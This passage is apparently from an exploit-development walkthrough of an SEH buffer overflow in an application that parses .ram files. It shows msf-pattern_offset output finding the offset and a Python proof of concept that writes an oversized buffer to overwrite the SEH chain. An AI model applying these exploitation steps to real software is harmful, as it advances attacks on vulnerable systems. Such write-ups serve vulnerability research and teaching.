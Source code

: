 The nSEH value is copied and the offset is found using msf-pattern_offset:

```term_session
root@kali:~# msf-pattern_offset -q 66473965 -l 50000 
[*] Exact match at offset 4828
[*] Exact match at offset 25108
[*] Exact match at offset 45388
root@kali:~# 
```

As it is seen on the image, the program outputs different offsets, let's try with the last one, 45388.

Updated PoC:

```term_session
import struct

buffer = "A" * 45388 + "BBBB" + "CCCC"

f = open ("finding2.ram", "w")
f.write(buffer)
f.close()
```

After the aforementioned process is once again repeated, the SEH Chain is overwritten by the desired values:

![](/assets/img/Findings2/7.png)

The modules are listed:

![](/assets/img/Findings2/8.png)
